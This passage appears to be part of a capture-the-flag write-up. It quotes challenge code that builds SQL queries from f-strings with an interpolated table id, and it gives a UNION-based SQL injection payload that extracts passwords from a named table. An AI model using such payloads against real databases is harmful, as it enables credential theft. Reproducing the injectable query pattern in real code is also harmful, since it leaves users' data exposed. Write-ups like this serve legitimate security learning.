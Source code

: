 <img width="700" alt="image" src="t1.png">

  NOTE: and also we can't use this table again, bcoz our searched is updeted to 1.

  ` searched = db.execute(f"SELECT searched FROM table_{id}").fetchone()[0]
    if searched:
        return "you've used your shot."
    
    db.execute(f"UPDATE table_{id} SET searched = 1")`


we have to create another session for that visit website home page again and start `new_session`.
and you will get new table-name (new id).


now let's try `' UNION SELECT password FROM table_4d9ef5c3c4722897 WHERE 1=1 UNION SELECT password FROM table_4d9ef5c3c4722897 WHERE 1=1; --`
Now response is something intreasting.
